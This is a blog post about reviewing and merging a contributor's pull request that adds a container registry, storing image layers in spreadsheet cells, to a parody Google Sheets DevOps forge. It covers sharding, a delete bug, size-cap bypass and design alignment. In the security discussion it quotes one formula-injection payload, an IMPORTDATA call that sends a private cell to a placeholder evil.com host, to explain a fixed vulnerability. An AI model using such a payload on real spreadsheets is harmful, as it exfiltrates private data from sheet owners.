




Most of what I write about the Sheet-Native Computing Foundation, I built myself. This one I didn’t. An external contributor showed up, unprompted, and implemented one of the more ambitious pieces on our roadmap: a container registry that stores OCI image layers inside spreadsheet cells. This post is the story of getting it merged — the review, the decisions, the bugs we caught, and what shipped. It’s a small case study in open source actually working, and I want to give the contributor their due.

New here? SheetHub is our GitLab-style DevOps forge that runs on a Google Sheet — repos, issues, merge requests, releases, all stored in tabs. It’s part of the Sheet-Native Computing Foundation (SNCF), a working parody of the CNCF where the whole stack lives in spreadsheets: an orchestrator (Sheeternetes), a container image format (SICF), certification, live demos. sncfoundation.github.io · github.com/sncfoundation
What landed
A user going by prateeekbuilds — who, notably, had
already built the original SheetHub — opened a PR adding a Container
Registry tab to the forge. The idea: push a real OCI image and have its
layers stored as base64, sharded across discrete cells (≤30,000 chars
each, to stay under the spreadsheet cell limit), addressed by sha256. A
CLI (sheethub registry push/pull/view/delete), a web UI
with image cards and a “shard map,” and the Apps Script control plane to
back it.
If you’ve read the SICF / DOOM post, this will sound familiar — it’s the same “an image lives in the cells” idea, now built into the forge so you can push and pull images without an external registry. Here’s the part I find genuinely charming: click “Inspect Shard Map” on any image and it shows you exactly which cells the layer lives in.

That’s a real container image — traefik/whoami — sitting
in cells D2 and D3, sha256-addressed, with a
byte-for-byte reassembly on pull. It works. But “it works” was the start
of the conversation, not the end.
How we reviewed it
A 1,200-line PR touching the control plane, a CLI, and a web UI is exactly the kind of thing where a single skim misses the bug that matters. So instead of eyeballing it, I ran the review as three independent passes, each with one lens: correctness, security, and design-fit. Different questions, no shared assumptions.
- Correctness asked: does the base64 sharding round-trip losslessly? Off-by-one at chunk boundaries? Is the sha256 computed over the right bytes and actually verified on pull?
- Security asked: can a crafted image name inject a
live formula into the sheet (
=IMPORTDATA(…)runs as the sheet owner)? Is the destructivedelete_imagereachable by anyone with the URL? Can a client store content under a digest that doesn’t match? - Design asked the uncomfortable one: this
reinvents a standard we already own. SNCF already has SICF —
image layers in
Images/Layerstabs, sha256-addressed, with asheetbuildtool that round-trips OCI images. The PR built a parallel, incompatible schema (Registry/RegistryChunks). Nicely done, but it meant a SheetHub image couldn’t be pulled by Sheeternetes’ runtime.
That structure paid off. Each lens found things the others didn’t — the security pass caught the formula-injection vector, correctness caught a delete that would wipe layers shared by another image, and the design pass surfaced the SICF divergence that no amount of line-by-line reading would flag as a “bug.”

The back-and-forth
Here’s where it became a good collaboration rather than a gate. I posted the findings; prateeekbuilds turned them around the same day. Then I re-reviewed — verifying each claimed fix was actually implemented, not just described — and found more. He fixed those too. The test suite grew from 32 to 50 assertions along the way, and CI stayed green.
A few of the decisions, because they’re the interesting part:
Formula/CSV injection. Spreadsheet cells treat a
leading =, +, -, or
@ as a formula. Since the web app runs as the sheet owner,
an image named =IMPORTDATA("evil.com?"&Files!C2) would
exfiltrate a private cell. The fix: prefix-escape those cells with an
apostrophe on write, unescape on read. The subtle worry — does that
corrupt base64 chunks that legitimately start with +? We
tested it explicitly: a +-leading chunk round-trips
byte-identical, so sha256 still verifies. Safe.
A delete that ate other images’ data. Because layers
are content-addressed by digest, two image tags can share one chunk set.
The original delete_image removed all chunks for a digest
unconditionally — so deleting one tag would silently corrupt another.
The fix mirrors the guard the push path already had: only purge chunks
when the last image referencing that digest is gone.
The standard question. On the SICF divergence,
prateeekbuilds didn’t get defensive — he agreed, and proposed the right
shape: adopt SICF’s core columns
(ordinal/data/media_type, config
+ ordered layers) while keeping the forge’s own fields
(repo, tag, author) as an
additive superset. That makes SheetHub a SICF-native registry —
its images become pullable by sheetbuild and the
Sheeternetes runtime — rather than a second, incompatible format. We
agreed to land the registry now and do the SICF alignment as a focused
follow-up.
Finishing the last mile myself
On the second re-review, three residual bugs were left, and they were small enough that it was faster to just fix them than to run another round-trip. So I pushed a commit onto the branch:
- The demo was broken out of the box. The backend recomputed the seeded images’ digests correctly, but the web UI still hardcoded the old ones — one of them was literally the sha256 of the empty string. So “Download Layer” on the seeded image aborted with a false “integrity error.” I set the UI digests to the hash of their own chunks and added a regression test asserting the two can never drift again.
- The 50 MB size cap trusted the client — it only
fired if the client sent a
size_bytesfield, so omitting it bypassed the cap. Now the server measures the payload itself. delete_imageby digest wasn’t scoped to the repo, so a digest delete could remove a same-digest image in a different repo. Scoped it.
Tests went 50 → 52, CI green, and I approved and squash-merged. I
left two things as follow-ups rather than block on them: a narrow
escape-roundtrip edge case for human-authored text starting with
', and the fact that the injection guard protects the sheet
grid but not a downstream CSV export of the JSON API. Both are real,
neither is worth holding a working feature hostage.

Why I’m writing this up
Two reasons. First, credit: prateeekbuilds built the original forge and this registry, took a thorough (occasionally brutal) review with total grace, and turned fixes around in hours. That’s the whole promise of open source, and it’s rare enough that it deserves saying out loud. Thank you.
Second, the review itself is the reusable part. Three independent lenses beat one careful read — not because any single reviewer is smarter, but because forcing yourself to ask only “is this correct,” then only “is this exploitable,” then only “does this fit the system,” stops you from smearing all three into a vague “looks good.” The design lens in particular — “are we reinventing something we own?” — is the one that never shows up as a failing test, and it was the most important finding in the whole PR.
The registry ships. The SICF alignment is next, and prateeekbuilds is doing it. Do not run a production registry on a spreadsheet. Do read the shard map — it’s a genuinely nice way to see content-addressed storage with your own eyes.
Join in
- SheetHub: github.com/sncfoundation/sheethub
- The foundation: sncfoundation.github.io · github.com/sncfoundation
- Slack sheetncf, Telegram t.me/stncf, LinkedIn company/sheetncf
It reconciles.